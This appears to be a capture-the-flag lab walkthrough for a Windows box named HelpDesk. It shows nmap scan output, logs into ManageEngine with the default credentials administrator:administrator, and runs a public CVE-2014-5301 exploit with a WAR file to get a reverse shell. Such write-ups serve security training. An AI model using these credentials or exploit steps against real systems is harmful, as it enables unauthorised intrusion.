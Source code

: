 # HelpDesk

## Summary

* The machine was running a vulnerable version of ManageEngine, which was misconfigured to allow Admin login with the default password.
* Later, I discovered a public authenticated exploit to gain a shell on the box.



## Let's unpack

### Enumeration

```bash
nmap -sC -sN -A -oN nmapFull -p- -A 192.168.166.43

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server (R) 2008 Standard 6001 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
```

Enumerating port 8080 that is hosting ManageEngine Service

Misconfiguration found: Manage engine has enabled login using default credentials

<mark style="color:red;">administrator: administrator</mark>

### Initial Foothold

We can use the following exploit to gain a shell on the box. Since it is an authenticated exploit, it requires a username and password, which we already have for this service.

{% embed url="https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py" %}

<pre class="language-bash"><code class="lang-bash"><strong># executing exploit to get reverse shell
</strong>python3 exploit.py 192.168.166.43 8080 administrator administrator shell.war 

> I actually got admin shell!!!
</code></pre>







